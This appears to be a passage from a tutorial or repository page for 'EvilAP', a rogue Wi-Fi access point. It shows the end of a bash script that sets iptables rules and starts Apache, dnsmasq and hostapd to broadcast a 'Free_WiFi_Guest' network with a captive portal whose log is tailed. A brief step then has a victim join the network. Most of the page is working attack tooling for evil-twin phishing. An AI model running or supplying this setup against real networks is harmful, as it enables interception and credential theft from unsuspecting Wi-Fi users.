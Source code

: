 ```sh
# Allow established connections
iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT

# Allow traffic on loopback
iptables -A INPUT -i lo -j ACCEPT
iptables -A OUTPUT -o lo -j ACCEPT

# Allow traffic on AP interface
iptables -A INPUT -i $INTERFACE -j ACCEPT
iptables -A OUTPUT -o $INTERFACE -j ACCEPT

echo -e "${YELLOW}[*] Starting services${NC}"

# Start Apache
systemctl start apache2

# Start dnsmasq (asegúrate de que tu /etc/dnsmasq.conf está configurado)
dnsmasq -C /etc/dnsmasq.conf -d &
DNSMASQ_PID=$!

# Start hostapd
hostapd /etc/hostapd/hostapd.conf -B

echo -e "${GREEN}[+] EvilAP is now running!${NC}"
echo -e "${GREEN}[+] SSID: Free_WiFi_Guest${NC}"
echo -e "${GREEN}[+] Portal IP: http://${AP_IP}${NC}"
echo -e "${GREEN}[+] Check logs: tail -f /var/log/captive_portal.log${NC}"
echo -e "${YELLOW}[*] Press Ctrl+C to stop${NC}"

# Keep script running
trap 'echo -e "\n${YELLOW}[*] Stopping EvilAP...${NC}"; kill $DNSMASQ_PID; 
systemctl stop hostapd; systemctl stop apache2; iptables -F; iptables -t nat -F; 
echo -e "${GREEN}[+] EvilAP stopped${NC}"; exit 0' INT

# Wait for interrupt
while true; do
    sleep 60
    echo -e "${GREEN}[+] EvilAP running... ($(date))${NC}"
done
```

### Executing our Fake AP

1. We setup our Fake AP and the user connect to our Wi‑Fi network.

![Setup Fake AP](fakeap.jpeg)
